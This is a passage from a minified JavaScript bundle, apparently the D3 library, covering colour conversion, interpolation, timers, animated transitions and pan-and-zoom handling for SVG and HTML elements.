bn(t.h,t.s,t.l,t.opacity);if(t instanceof Xt||(t=ln(t)),!t)return new bn;if(t instanceof bn)return t;var n=(t=t.rgb()).r/255,e=t.g/255,r=t.b/255,i=Math.min(n,e,r),o=Math.max(n,e,r),a=NaN,u=o-i,s=(o+i)/2;return u?(a=n===o?(e-r)/u+6*(e<r):e===o?(r-n)/u+2:(n-e)/u+4,u/=s<.5?o+i:2-o-i,a*=60):u=s>0&&s<1?0:a,new bn(a,u,s,t.opacity)}function bn(t,n,e,r){this.h=+t,this.s=+n,this.l=+e,this.opacity=+r}function wn(t){return(t=(t||0)%360)<0?t+360:t}function kn(t){return Math.max(0,Math.min(1,t||0))}function Mn(t,n,e){return 255*(t<60?n+(e-n)*t/60:t<180?e:t<240?n+(e-n)*(240-t)/60:n)}Ht(Xt,ln,{copy(t){return Object.assign(new this.constructor,this,t)},displayable(){return this.rgb().displayable()},hex:un,formatHex:un,formatHex8:function(){return this.rgb().formatHex8()},formatHsl:function(){return xn(this).formatHsl()},formatRgb:sn,toString:sn}),Ht(dn,fn,Vt(Xt,{brighter(t){return t=null==t?Yt:Math.pow(Yt,t),new dn(this.r*t,this.g*t,this.b*t,this.opacity)},darker(t){return t=null==t?Gt:Math.pow(Gt,t),new dn(this.r*t,this.g*t,this.b*t,this.opacity)},rgb(){return this},clamp(){return new dn(vn(this.r),vn(this.g),vn(this.b),yn(this.opacity))},displayable(){return-.5<=this.r&&this.r<255.5&&-.5<=this.g&&this.g<255.5&&-.5<=this.b&&this.b<255.5&&0<=this.opacity&&this.opacity<=1},hex:pn,formatHex:pn,formatHex8:function(){return`#${_n(this.r)}${_n(this.g)}${_n(this.b)}${_n(255*(isNaN(this.opacity)?1:this.opacity))}`},formatRgb:gn,toString:gn})),Ht(bn,(function(t,n,e,r){return 1===arguments.length?xn(t):new bn(t,n,e,null==r?1:r)}),Vt(Xt,{brighter(t){return t=null==t?Yt:Math.pow(Yt,t),new bn(this.h,this.s,this.l*t,this.opacity)},darker(t){return t=null==t?Gt:Math.pow(Gt,t),new bn(this.h,this.s,this.l*t,this.opacity)},rgb(){var t=this.h%360+360*(this.h<0),n=isNaN(t)||isNaN(this.s)?0:this.s,e=this.l,r=e+(e<.5?e:1-e)*n,i=2*e-r;return new dn(Mn(t>=240?t-240:t+120,i,r),Mn(t,i,r),Mn(t<120?t+240:t-120,i,r),this.opacity)},clamp(){return new bn(wn(this.h),kn(this.s),kn(this.l),yn(this.opacity))},displayable(){return(0<=this.s&&this.s<=1||isNaN(this.s))&&0<=this.l&&this.l<=1&&0<=this.opacity&&this.opacity<=1},formatHsl(){const t=yn(this.opacity);return`${1===t?\"hsl(\":\"hsla(\"}${wn(this.h)}, ${100*kn(this.s)}%, ${100*kn(this.l)}%${1===t?\")\":`, ${t})`}`}}));var zn=t=>()=>t;function An(t){return 1==(t=+t)?Sn:function(n,e){return e-n?function(t,n,e){return t=Math.pow(t,e),n=Math.pow(n,e)-t,e=1/e,function(r){return Math.pow(t+r*n,e)}}(n,e,t):zn(isNaN(n)?e:n)}}function Sn(t,n){var e=n-t;return e?function(t,n){return function(e){return t+e*n}}(t,e):zn(isNaN(t)?n:t)}var Cn=function t(n){var e=An(n);function r(t,n){var r=e((t=fn(t)).r,(n=fn(n)).r),i=e(t.g,n.g),o=e(t.b,n.b),a=Sn(t.opacity,n.opacity);return function(n){return t.r=r(n),t.g=i(n),t.b=o(n),t.opacity=a(n),t+\"\"}}return r.gamma=t,r}(1);function En(t,n){return t=+t,n=+n,function(e){return t*(1-e)+n*e}}var On=/[-+]?(?:\\d+\\.?\\d*|\\.?\\d+)(?:[eE][-+]?\\d+)?/g,Nn=new RegExp(On.source,\"g\");function Pn(t,n){var e,r,i,o=On.lastIndex=Nn.lastIndex=0,a=-1,u=[],s=[];for(t+=\"\",n+=\"\";(e=On.exec(t))&&(r=Nn.exec(n));)(i=r.index)>o&&(i=n.slice(o,i),u[a]?u[a]+=i:u[++a]=i),(e=e[0])===(r=r[0])?u[a]?u[a]+=r:u[++a]=r:(u[++a]=null,s.push({i:a,x:En(e,r)})),o=Nn.lastIndex;return o<n.length&&(i=n.slice(o),u[a]?u[a]+=i:u[++a]=i),u.length<2?s[0]?function(t){return function(n){return t(n)+\"\"}}(s[0].x):function(t){return function(){return t}}(n):(n=s.length,function(t){for(var e,r=0;r<n;++r)u[(e=s[r]).i]=e.x(t);return u.join(\"\")})}var jn,Tn=180/Math.PI,Rn={translateX:0,translateY:0,rotate:0,skewX:0,scaleX:1,scaleY:1};function Dn(t,n,e,r,i,o){var a,u,s;return(a=Math.sqrt(t*t+n*n))&&(t/=a,n/=a),(s=t*e+n*r)&&(e-=t*s,r-=n*s),(u=Math.sqrt(e*e+r*r))&&(e/=u,r/=u,s/=u),t*r<n*e&&(t=-t,n=-n,s=-s,a=-a),{translateX:i,translateY:o,rotate:Math.atan2(n,t)*Tn,skewX:Math.atan(s)*Tn,scaleX:a,scaleY:u}}function In(t,n,e,r){function i(t){return t.length?t.pop()+\" \":\"\"}return function(o,a){var u=[],s=[];return o=t(o),a=t(a),function(t,r,i,o,a,u){if(t!==i||r!==o){var s=a.push(\"translate(\",null,n,null,e);u.push({i:s-4,x:En(t,i)},{i:s-2,x:En(r,o)})}else(i||o)&&a.push(\"translate(\"+i+n+o+e)}(o.translateX,o.translateY,a.translateX,a.translateY,u,s),function(t,n,e,o){t!==n?(t-n>180?n+=360:n-t>180&&(t+=360),o.push({i:e.push(i(e)+\"rotate(\",null,r)-2,x:En(t,n)})):n&&e.push(i(e)+\"rotate(\"+n+r)}(o.rotate,a.rotate,u,s),function(t,n,e,o){t!==n?o.push({i:e.push(i(e)+\"skewX(\",null,r)-2,x:En(t,n)}):n&&e.push(i(e)+\"skewX(\"+n+r)}(o.skewX,a.skewX,u,s),function(t,n,e,r,o,a){if(t!==e||n!==r){var u=o.push(i(o)+\"scale(\",null,\",\",null,\")\");a.push({i:u-4,x:En(t,e)},{i:u-2,x:En(n,r)})}else 1===e&&1===r||o.push(i(o)+\"scale(\"+e+\",\"+r+\")\")}(o.scaleX,o.scaleY,a.scaleX,a.scaleY,u,s),o=a=null,function(t){for(var n,e=-1,r=s.length;++e<r;)u[(n=s[e]).i]=n.x(t);return u.join(\"\")}}}var Un=In((function(t){const n=new(\"function\"==typeof DOMMatrix?DOMMatrix:WebKitCSSMatrix)(t+\"\");return n.isIdentity?Rn:Dn(n.a,n.b,n.c,n.d,n.e,n.f)}),\"px, \",\"px)\",\"deg)\"),Fn=In((function(t){return null==t?Rn:(jn||(jn=document.createElementNS(\"http://www.w3.org/2000/svg\",\"g\")),jn.setAttribute(\"transform\",t),(t=jn.transform.baseVal.consolidate())?Dn((t=t.matrix).a,t.b,t.c,t.d,t.e,t.f):Rn)}),\", \",\")\",\")\");function Ln(t){return((t=Math.exp(t))+1/t)/2}var qn,Bn,$n=function t(n,e,r){function i(t,i){var o,a,u=t[0],s=t[1],l=t[2],c=i[0],h=i[1],f=i[2],d=c-u,p=h-s,g=d*d+p*p;if(g<1e-12)a=Math.log(f/l)/n,o=function(t){return[u+t*d,s+t*p,l*Math.exp(n*t*a)]};else{var y=Math.sqrt(g),v=(f*f-l*l+r*g)/(2*l*e*y),_=(f*f-l*l-r*g)/(2*f*e*y),m=Math.log(Math.sqrt(v*v+1)-v),x=Math.log(Math.sqrt(_*_+1)-_);a=(x-m)/n,o=function(t){var r=t*a,i=Ln(m),o=l/(e*y)*(i*function(t){return((t=Math.exp(2*t))-1)/(t+1)}(n*r+m)-function(t){return((t=Math.exp(t))-1/t)/2}(m));return[u+o*d,s+o*p,l*i/Ln(n*r+m)]}}return o.duration=1e3*a*n/Math.SQRT2,o}return i.rho=function(n){var e=Math.max(.001,+n),r=e*e;return t(e,r,r*r)},i}(Math.SQRT2,2,4),Hn=0,Vn=0,Xn=0,Gn=1e3,Yn=0,Wn=0,Zn=0,Qn=\"object\"==typeof performance&&performance.now?performance:Date,Kn=\"object\"==typeof window&&window.requestAnimationFrame?window.requestAnimationFrame.bind(window):function(t){setTimeout(t,17)};function Jn(){return Wn||(Kn(te),Wn=Qn.now()+Zn)}function te(){Wn=0}function ne(){this._call=this._time=this._next=null}function ee(t,n,e){var r=new ne;return r.restart(t,n,e),r}function re(){Wn=(Yn=Qn.now())+Zn,Hn=Vn=0;try{!function(){Jn(),++Hn;for(var t,n=qn;n;)(t=Wn-n._time)>=0&&n._call.call(void 0,t),n=n._next;--Hn}()}finally{Hn=0,function(){var t,n,e=qn,r=1/0;for(;e;)e._call?(r>e._time&&(r=e._time),t=e,e=e._next):(n=e._next,e._next=null,e=t?t._next=n:qn=n);Bn=t,oe(r)}(),Wn=0}}function ie(){var t=Qn.now(),n=t-Yn;n>Gn&&(Zn-=n,Yn=t)}function oe(t){Hn||(Vn&&(Vn=clearTimeout(Vn)),t-Wn>24?(t<1/0&&(Vn=setTimeout(re,t-Qn.now()-Zn)),Xn&&(Xn=clearInterval(Xn))):(Xn||(Yn=Qn.now(),Xn=setInterval(ie,Gn)),Hn=1,Kn(re)))}function ae(t,n,e){var r=new ne;return n=null==n?0:+n,r.restart((e=>{r.stop(),t(e+n)}),n,e),r}ne.prototype=ee.prototype={constructor:ne,restart:function(t,n,e){if(\"function\"!=typeof t)throw new TypeError(\"callback is not a function\");e=(null==e?Jn():+e)+(null==n?0:+n),this._next||Bn===this||(Bn?Bn._next=this:qn=this,Bn=this),this._call=t,this._time=e,oe()},stop:function(){this._call&&(this._call=null,this._time=1/0,oe())}};var ue=Ct(\"start\",\"end\",\"cancel\",\"interrupt\"),se=[],le=0,ce=1,he=2,fe=3,de=4,pe=5,ge=6;function ye(t,n,e,r,i,o){var a=t.__transition;if(a){if(e in a)return}else t.__transition={};!function(t,n,e){var r,i=t.__transition;function o(t){e.state=ce,e.timer.restart(a,e.delay,e.time),e.delay<=t&&a(t-e.delay)}function a(o){var l,c,h,f;if(e.state!==ce)return s();for(l in i)if((f=i[l]).name===e.name){if(f.state===fe)return ae(a);f.state===de?(f.state=ge,f.timer.stop(),f.on.call(\"interrupt\",t,t.__data__,f.index,f.group),delete i[l]):+l<n&&(f.state=ge,f.timer.stop(),f.on.call(\"cancel\",t,t.__data__,f.index,f.group),delete i[l])}if(ae((function(){e.state===fe&&(e.state=de,e.timer.restart(u,e.delay,e.time),u(o))})),e.state=he,e.on.call(\"start\",t,t.__data__,e.index,e.group),e.state===he){for(e.state=fe,r=new Array(h=e.tween.length),l=0,c=-1;l<h;++l)(f=e.tween[l].value.call(t,t.__data__,e.index,e.group))&&(r[++c]=f);r.length=c+1}}function u(n){for(var i=n<e.duration?e.ease.call(null,n/e.duration):(e.timer.restart(s),e.state=pe,1),o=-1,a=r.length;++o<a;)r[o].call(t,i);e.state===pe&&(e.on.call(\"end\",t,t.__data__,e.index,e.group),s())}function s(){for(var r in e.state=ge,e.timer.stop(),delete i[n],i)return;delete t.__transition}i[n]=e,e.timer=ee(o,0,e.time)}(t,e,{name:n,index:r,group:i,on:ue,tween:se,time:o.time,delay:o.delay,duration:o.duration,ease:o.ease,timer:null,state:le})}function ve(t,n){var e=me(t,n);if(e.state>le)throw new Error(\"too late; already scheduled\");return e}function _e(t,n){var e=me(t,n);if(e.state>fe)throw new Error(\"too late; already running\");return e}function me(t,n){var e=t.__transition;if(!e||!(e=e[n]))throw new Error(\"transition not found\");return e}function xe(t,n){var e,r,i,o=t.__transition,a=!0;if(o){for(i in n=null==n?null:n+\"\",o)(e=o[i]).name===n?(r=e.state>he&&e.state<pe,e.state=ge,e.timer.stop(),e.on.call(r?\"interrupt\":\"cancel\",t,t.__data__,e.index,e.group),delete o[i]):a=!1;a&&delete t.__transition}}function be(t,n){var e,r;return function(){var i=_e(this,t),o=i.tween;if(o!==e)for(var a=0,u=(r=e=o).length;a<u;++a)if(r[a].name===n){(r=r.slice()).splice(a,1);break}i.tween=r}}function we(t,n,e){var r,i;if(\"function\"!=typeof e)throw new Error;return function(){var o=_e(this,t),a=o.tween;if(a!==r){i=(r=a).slice();for(var u={name:n,value:e},s=0,l=i.length;s<l;++s)if(i[s].name===n){i[s]=u;break}s===l&&i.push(u)}o.tween=i}}function ke(t,n,e){var r=t._id;return t.each((function(){var t=_e(this,r);(t.value||(t.value={}))[n]=e.apply(this,arguments)})),function(t){return me(t,r).value[n]}}function Me(t,n){var e;return(\"number\"==typeof n?En:n instanceof ln?Cn:(e=ln(n))?(n=e,Cn):Pn)(t,n)}function ze(t){return function(){this.removeAttribute(t)}}function Ae(t){return function(){this.removeAttributeNS(t.space,t.local)}}function Se(t,n,e){var r,i,o=e+\"\";return function(){var a=this.getAttribute(t);return a===o?null:a===r?i:i=n(r=a,e)}}function Ce(t,n,e){var r,i,o=e+\"\";return function(){var a=this.getAttributeNS(t.space,t.local);return a===o?null:a===r?i:i=n(r=a,e)}}function Ee(t,n,e){var r,i,o;return function(){var a,u,s=e(this);if(null!=s)return(a=this.getAttribute(t))===(u=s+\"\")?null:a===r&&u===i?o:(i=u,o=n(r=a,s));this.removeAttribute(t)}}function Oe(t,n,e){var r,i,o;return function(){var a,u,s=e(this);if(null!=s)return(a=this.getAttributeNS(t.space,t.local))===(u=s+\"\")?null:a===r&&u===i?o:(i=u,o=n(r=a,s));this.removeAttributeNS(t.space,t.local)}}function Ne(t,n){var e,r;function i(){var i=n.apply(this,arguments);return i!==r&&(e=(r=i)&&function(t,n){return function(e){this.setAttributeNS(t.space,t.local,n.call(this,e))}}(t,i)),e}return i._value=n,i}function Pe(t,n){var e,r;function i(){var i=n.apply(this,arguments);return i!==r&&(e=(r=i)&&function(t,n){return function(e){this.setAttribute(t,n.call(this,e))}}(t,i)),e}return i._value=n,i}function je(t,n){return function(){ve(this,t).delay=+n.apply(this,arguments)}}function Te(t,n){return n=+n,function(){ve(this,t).delay=n}}function Re(t,n){return function(){_e(this,t).duration=+n.apply(this,arguments)}}function De(t,n){return n=+n,function(){_e(this,t).duration=n}}var Ie=Mt.prototype.constructor;function Ue(t){return function(){this.style.removeProperty(t)}}var Fe=0;function Le(t,n,e,r){this._groups=t,this._parents=n,this._name=e,this._id=r}function qe(){return++Fe}var Be=Mt.prototype;Le.prototype={constructor:Le,select:function(t){var n=this._name,e=this._id;\"function\"!=typeof t&&(t=x(t));for(var r=this._groups,i=r.length,o=new Array(i),a=0;a<i;++a)for(var u,s,l=r[a],c=l.length,h=o[a]=new Array(c),f=0;f<c;++f)(u=l[f])&&(s=t.call(u,u.__data__,f,l))&&(\"__data__\"in u&&(s.__data__=u.__data__),h[f]=s,ye(h[f],n,e,f,h,me(u,e)));return new Le(o,this._parents,n,e)},selectAll:function(t){var n=this._name,e=this._id;\"function\"!=typeof t&&(t=w(t));for(var r=this._groups,i=r.length,o=[],a=[],u=0;u<i;++u)for(var s,l=r[u],c=l.length,h=0;h<c;++h)if(s=l[h]){for(var f,d=t.call(s,s.__data__,h,l),p=me(s,e),g=0,y=d.length;g<y;++g)(f=d[g])&&ye(f,n,e,g,d,p);o.push(d),a.push(s)}return new Le(o,a,n,e)},selectChild:Be.selectChild,selectChildren:Be.selectChildren,filter:function(t){\"function\"!=typeof t&&(t=M(t));for(var n=this._groups,e=n.length,r=new Array(e),i=0;i<e;++i)for(var o,a=n[i],u=a.length,s=r[i]=[],l=0;l<u;++l)(o=a[l])&&t.call(o,o.__data__,l,a)&&s.push(o);return new Le(r,this._parents,this._name,this._id)},merge:function(t){if(t._id!==this._id)throw new Error;for(var n=this._groups,e=t._groups,r=n.length,i=e.length,o=Math.min(r,i),a=new Array(r),u=0;u<o;++u)for(var s,l=n[u],c=e[u],h=l.length,f=a[u]=new Array(h),d=0;d<h;++d)(s=l[d]||c[d])&&(f[d]=s);for(;u<r;++u)a[u]=n[u];return new Le(a,this._parents,this._name,this._id)},selection:function(){return new Ie(this._groups,this._parents)},transition:function(){for(var t=this._name,n=this._id,e=qe(),r=this._groups,i=r.length,o=0;o<i;++o)for(var a,u=r[o],s=u.length,l=0;l<s;++l)if(a=u[l]){var c=me(a,n);ye(a,t,e,l,u,{time:c.time+c.delay+c.duration,delay:0,duration:c.duration,ease:c.ease})}return new Le(r,this._parents,t,e)},call:Be.call,nodes:Be.nodes,node:Be.node,size:Be.size,empty:Be.empty,each:Be.each,on:function(t,n){var e=this._id;return arguments.length<2?me(this.node(),e).on.on(t):this.each(function(t,n,e){var r,i,o=function(t){return(t+\"\").trim().split(/^|\\s+/).every((function(t){var n=t.indexOf(\".\");return n>=0&&(t=t.slice(0,n)),!t||\"start\"===t}))}(n)?ve:_e;return function(){var a=o(this,t),u=a.on;u!==r&&(i=(r=u).copy()).on(n,e),a.on=i}}(e,t,n))},attr:function(t,n){var e=g(t),r=\"transform\"===e?Fn:Me;return this.attrTween(t,\"function\"==typeof n?(e.local?Oe:Ee)(e,r,ke(this,\"attr.\"+t,n)):null==n?(e.local?Ae:ze)(e):(e.local?Ce:Se)(e,r,n))},attrTween:function(t,n){var e=\"attr.\"+t;if(arguments.length<2)return(e=this.tween(e))&&e._value;if(null==n)return this.tween(e,null);if(\"function\"!=typeof n)throw new Error;var r=g(t);return this.tween(e,(r.local?Ne:Pe)(r,n))},style:function(t,n,e){var r=\"transform\"==(t+=\"\")?Un:Me;return null==n?this.styleTween(t,function(t,n){var e,r,i;return function(){var o=G(this,t),a=(this.style.removeProperty(t),G(this,t));return o===a?null:o===e&&a===r?i:i=n(e=o,r=a)}}(t,r)).on(\"end.style.\"+t,Ue(t)):\"function\"==typeof n?this.styleTween(t,function(t,n,e){var r,i,o;return function(){var a=G(this,t),u=e(this),s=u+\"\";return null==u&&(this.style.removeProperty(t),s=u=G(this,t)),a===s?null:a===r&&s===i?o:(i=s,o=n(r=a,u))}}(t,r,ke(this,\"style.\"+t,n))).each(function(t,n){var e,r,i,o,a=\"style.\"+n,u=\"end.\"+a;return function(){var s=_e(this,t),l=s.on,c=null==s.value[a]?o||(o=Ue(n)):void 0;l===e&&i===c||(r=(e=l).copy()).on(u,i=c),s.on=r}}(this._id,t)):this.styleTween(t,function(t,n,e){var r,i,o=e+\"\";return function(){var a=G(this,t);return a===o?null:a===r?i:i=n(r=a,e)}}(t,r,n),e).on(\"end.style.\"+t,null)},styleTween:function(t,n,e){var r=\"style.\"+(t+=\"\");if(arguments.length<2)return(r=this.tween(r))&&r._value;if(null==n)return this.tween(r,null);if(\"function\"!=typeof n)throw new Error;return this.tween(r,function(t,n,e){var r,i;function o(){var o=n.apply(this,arguments);return o!==i&&(r=(i=o)&&function(t,n,e){return function(r){this.style.setProperty(t,n.call(this,r),e)}}(t,o,e)),r}return o._value=n,o}(t,n,null==e?\"\":e))},text:function(t){return this.tween(\"text\",\"function\"==typeof t?function(t){return function(){var n=t(this);this.textContent=null==n?\"\":n}}(ke(this,\"text\",t)):function(t){return function(){this.textContent=t}}(null==t?\"\":t+\"\"))},textTween:function(t){var n=\"text\";if(arguments.length<1)return(n=this.tween(n))&&n._value;if(null==t)return this.tween(n,null);if(\"function\"!=typeof t)throw new Error;return this.tween(n,function(t){var n,e;function r(){var r=t.apply(this,arguments);return r!==e&&(n=(e=r)&&function(t){return function(n){this.textContent=t.call(this,n)}}(r)),n}return r._value=t,r}(t))},remove:function(){return this.on(\"end.remove\",function(t){return function(){var n=this.parentNode;for(var e in this.__transition)if(+e!==t)return;n&&n.removeChild(this)}}(this._id))},tween:function(t,n){var e=this._id;if(t+=\"\",arguments.length<2){for(var r,i=me(this.node(),e).tween,o=0,a=i.length;o<a;++o)if((r=i[o]).name===t)return r.value;return null}return this.each((null==n?be:we)(e,t,n))},delay:function(t){var n=this._id;return arguments.length?this.each((\"function\"==typeof t?je:Te)(n,t)):me(this.node(),n).delay},duration:function(t){var n=this._id;return arguments.length?this.each((\"function\"==typeof t?Re:De)(n,t)):me(this.node(),n).duration},ease:function(t){var n=this._id;return arguments.length?this.each(function(t,n){if(\"function\"!=typeof n)throw new Error;return function(){_e(this,t).ease=n}}(n,t)):me(this.node(),n).ease},easeVarying:function(t){if(\"function\"!=typeof t)throw new Error;return this.each(function(t,n){return function(){var e=n.apply(this,arguments);if(\"function\"!=typeof e)throw new Error;_e(this,t).ease=e}}(this._id,t))},end:function(){var t,n,e=this,r=e._id,i=e.size();return new Promise((function(o,a){var u={value:a},s={value:function(){0==--i&&o()}};e.each((function(){var e=_e(this,r),i=e.on;i!==t&&((n=(t=i).copy())._.cancel.push(u),n._.interrupt.push(u),n._.end.push(s)),e.on=n})),0===i&&o()}))},[Symbol.iterator]:Be[Symbol.iterator]};var $e={time:null,delay:0,duration:250,ease:function(t){return((t*=2)<=1?t*t*t:(t-=2)*t*t+2)/2}};function He(t,n){for(var e;!(e=t.__transition)||!(e=e[n]);)if(!(t=t.parentNode))throw new Error(`transition ${n} not found`);return e}Mt.prototype.interrupt=function(t){return this.each((function(){xe(this,t)}))},Mt.prototype.transition=function(t){var n,e;t instanceof Le?(n=t._id,t=t._name):(n=qe(),(e=$e).time=Jn(),t=null==t?null:t+\"\");for(var r=this._groups,i=r.length,o=0;o<i;++o)for(var a,u=r[o],s=u.length,l=0;l<s;++l)(a=u[l])&&ye(a,t,n,l,u,e||He(a,n));return new Le(r,this._parents,t,n)};var Ve=t=>()=>t;function Xe(t,{sourceEvent:n,target:e,transform:r,dispatch:i}){Object.defineProperties(this,{type:{value:t,enumerable:!0,configurable:!0},sourceEvent:{value:n,enumerable:!0,configurable:!0},target:{value:e,enumerable:!0,configurable:!0},transform:{value:r,enumerable:!0,configurable:!0},_:{value:i}})}function Ge(t,n,e){this.k=t,this.x=n,this.y=e}Ge.prototype={constructor:Ge,scale:function(t){return 1===t?this:new Ge(this.k*t,this.x,this.y)},translate:function(t,n){return 0===t&0===n?this:new Ge(this.k,this.x+this.k*t,this.y+this.k*n)},apply:function(t){return[t[0]*this.k+this.x,t[1]*this.k+this.y]},applyX:function(t){return t*this.k+this.x},applyY:function(t){return t*this.k+this.y},invert:function(t){return[(t[0]-this.x)/this.k,(t[1]-this.y)/this.k]},invertX:function(t){return(t-this.x)/this.k},invertY:function(t){return(t-this.y)/this.k},rescaleX:function(t){return t.copy().domain(t.range().map(this.invertX,this).map(t.invert,t))},rescaleY:function(t){return t.copy().domain(t.range().map(this.invertY,this).map(t.invert,t))},toString:function(){return\"translate(\"+this.x+\",\"+this.y+\") scale(\"+this.k+\")\"}};var Ye=new Ge(1,0,0);function We(t){for(;!t.__zoom;)if(!(t=t.parentNode))return Ye;return t.__zoom}function Ze(t){t.stopImmediatePropagation()}function Qe(t){t.preventDefault(),t.stopImmediatePropagation()}function Ke(t){return!(t.ctrlKey&&\"wheel\"!==t.type||t.button)}function Je(){var t=this;return t instanceof SVGElement?(t=t.ownerSVGElement||t).hasAttribute(\"viewBox\")?[[(t=t.viewBox.baseVal).x,t.y],[t.x+t.width,t.y+t.height]]:[[0,0],[t.width.baseVal.value,t.height.baseVal.value]]:[[0,0],[t.clientWidth,t.clientHeight]]}function tr(){return this.__zoom||Ye}function nr(t){return-t.deltaY*(1===t.deltaMode?.05:t.deltaMode?1:.002)*(t.ctrlKey?10:1)}function er(){return navigator.maxTouchPoints||\"ontouchstart\"in this}function rr(t,n,e){var r=t.invertX(n[0][0])-e[0][0],i=t.invertX(n[1][0])-e[1][0],o=t.invertY(n[0][1])-e[0][1],a=t.invertY(n[1][1])-e[1][1];return t.translate(i>r?(r+i)/2:Math.min(0,r)||Math.max(0,i),a>o?(o+a)/2:Math.min(0,o)||Math.max(0,a))}function ir(){var t,n,e,r=Ke,i=Je,o=rr,a=nr,u=er,s=[0,1/0],l=[[-1/0,-1/0],[1/0,1/0]],c=250,h=$n,f=Ct(\"start\",\"zoom\",\"end\"),d=500,p=150,g=0,y=10;function v(t){t.property(\"__zoom\",tr).on(\"wheel.zoom\",M,{passive:!1}).on(\"mousedown.zoom\",z).on(\"dblclick.zoom\",A).filter(u).on(\"touchstart.zoom\",S).on(\"touchmove.zoom\",C).on(\"touchend.zoom touchcancel.zoom\",E).style(\"-webkit-tap-highlight-color\",\"rgba(0,0,0,0)\")}function _(t,n){return(n=Math.max(s[0],Math.min(s[1],n)))===t.k?t:new Ge(n,t.x,t.y)}function m(t,n,e){var r=n[0]-e[0]*t.k,i=n[1]-e[1]*t.k;return r===t.x&&i===t.y?t:new Ge(t.k,r,i)}function x(t){return[(+t[0][0]+ +t[1][0])/2,(+t[0][1]+ +t[1][1])/2]}function b(t,n,e,r){t.on(\"start.zoom\",(function(){w(this,arguments).event(r).start()})).on(\"interrupt.zoom end.zoom\",(function(){w(this,arguments).event(r).end()})).tween(\"zoom\",(function(){var t=this,o=arguments,a=w(t,o).event(r),u=i.apply(t,o),s=null==e?x(u):\"function\"==typeof e?e.apply(t,o):e,l=Math.max(u[1][0]-u[0][0],u[1][1]-u[0][1]),c=t.__zoom,f=\"function\"==typeof n?n.apply(t,o):n,d=h(c.invert(s).concat(l/c.k),f.invert(s).concat(l/f.k));return function(t){if(1===t)t=f;else{var n=d(t),e=l/n[2];t=new Ge(e,s[0]-n[0]*e,s[1]-n[1]*e)}a.zoom(null,t)}}))}function w(t,n,e){return!e&&t.__zooming||new k(t,n)}function k(t,n){this.that=t,this.args=n,this.active=0,this.sourceEvent=null,this.extent=i.apply(t,n),this.taps=0}function M(t,...n){if(r.apply(this,arguments)){var e=w(this,n).event(t),i=this.__zoom,u=Math.max(s[0],Math.min(s[1],i.k*Math.pow(2,a.apply(this,arguments)))),c=At(t);if(e.wheel)e.mouse[0][0]===c[0]&&e.mouse[0][1]===c[1]||(e.mouse[1]=i.invert(e.mouse[0]=c)),clearTimeout(e.wheel);else{if(i.k===u)return;e.mouse=[c,i.invert(c)],xe(this),e.start()}Qe(t),e.wheel=setTimeout((function(){e.wheel=null,e.end()}),p),e.zoom(\"mouse\",o(m(_(i,u),e.mouse[0],e.mouse[1]),e.extent,l))}}function z(t,...n){if(!e&&r.apply(this,arguments)){var i=t.currentTarget,a=w(this,n,!0).event(t),u=zt(t.view).on(\"mousemove.zoom\",(function(t){if(Qe(t),!a.moved){var n=t.clientX-c,e=t.clientY-h;a.moved=n*n+e*e>g}a.event(t).zoom(\"mouse\",o(m(a.that.__zoom,a.mouse[0]=At(t,i),a.mouse[1]),a.extent,l))}),!0).on(\"mouseup.zoom\",(function(t){u.on(\"mousemove.zoom mouseup.zoom\",null),It(t.view,a.moved),Qe(t),a.event(t).end()}),!0),s=At(t,i),c=t.clientX,h=t.clientY;Dt(t.view),Ze(t),a.mouse=[s,this.__zoom.invert(s)],xe(this),a.start()}}function A(t,...n){if(r.apply(this,arguments)){var e=this.__zoom,a=At(t.changedTouches?t.changedTouches[0]:t,this),u=e.invert(a),s=e.k*(t.shiftKey?.5:2),h=o(m(_(e,s),a,u),i.apply(this,n),l);Qe(t),c>0?zt(this).transition().duration(c).call(b,h,a,t):zt(this).call(v.transform,h,a,t)}}function S(e,...i){if(r.apply(this,arguments)){var o,a,u,s,l=e.touches,c=l.length,h=w(this,i,e.changedTouches.length===c).event(e);for(Ze(e),a=0;a<c;++a)s=[s=At(u=l[a],this),this.__zoom.invert(s),u.identifier],h.touch0?h.touch1||h.touch0[2]===s[2]||(h.touch1=s,h.taps=0):(h.touch0=s,o=!0,h.taps=1+!!t);t&&(t=clearTimeout(t)),o&&(h.taps<2&&(n=s[0],t=setTimeout((function(){t=null}),d)),xe(this),h.start())}}function C(t,...n){if(this.__zooming){var e,r,i,a,u=w(this,n).event(t),s=t.changedTouches,c=s.length;for(Qe(t),e=0;e<c;++e)i=At(r=s[e],this),u.touch0&&u.touch0[2]===r.identifier?u.touch0[0]=i:u.touch1&&u.touch1[2]===r.identifier&&(u.touch1[0]=i);if(r=u.that.__zoom,u.touch1){var h=u.touch0[0],f=u.touch0[1],d=u.touch1[0],p=u.touch1[1],g=(g=d[0]-h[0])*g+(g=d[1]-h[1])*g,y=(y=p[0]-f[0])*y+(y=p[1]-f[1])*y;r=_(r,Math.sqrt(g/y)),i=[(h[0]+d[0])/2,(h[1]+d[1])/2],a=[(f[0]+p[0])/2,(f[1]+p[1])/2]}else{if(!u.touch0)return;i=u.touch0[0],a=u.touch0[1]}u.zoom(\"touch\",o(m(r,i,a),u.extent,l))}}function E(t,...r){if(this.__zooming){var i,o,a=w(this,r).event(t),u=t.changedTouches,s=u.length;for(Ze(t),e&&clearTimeout(e),e=setTimeout((function(){e=null}),d),i=0;i<s;++i)o=u[i],a.touch0&&a.touch0[2]===o.identifier?delete a.touch0:a.touch1&&a.touch1[2]===o.identifier&&delete a.touch1;if(a.touch1&&!a.touch0&&(a.touch0=a.touch1,delete a.touch1),a.touch0)a.touch0[1]=this.__zoom.invert(a.touch0[0]);else if(a.end(),2===a.taps&&(o=At(o,this),Math.hypot(n[0]-o[0],n[1]-o[1])<y)){var l=zt(this).on(\"dblclick.zoom\");l&&l.apply(this,arguments)}}}return v.transform=function(t,n,e,r){var i=t.selection?t.selection():t;i.property(\"__zoom\",tr),t!==i?b(t,n,e,r):i.interrupt().each((function(){w(this,arguments).event(r).start().zoom(null,\"function\"==typeof n?n.apply(this,arguments):n).end()}))},v.scaleBy=function(t,n,e,r){v.scaleTo(t,(function(){return this.__zoom.k*(\"function\"==typeof n?n.apply(this,arguments):n)}),e,r)},v.scaleTo=function(t,n,e,r){v.transform(t,(function(){var t=i.apply(this,arguments),r=this.__zoom,a=null==e?x(t):\"function\"==typeof e?e.apply(this,arguments):e,u=r.invert(a),s=\"function\"==typeof n?n.apply(this,arguments):n;return o(m(_(r,s),a,u),t,l)}),e,r)},v.translateBy=function(t,n,e,r){v.transform(t,(function(){return o(this.__zoom.translate(\"function\"==typeof n?n.apply(this,arguments):n,\"function\"==typeof 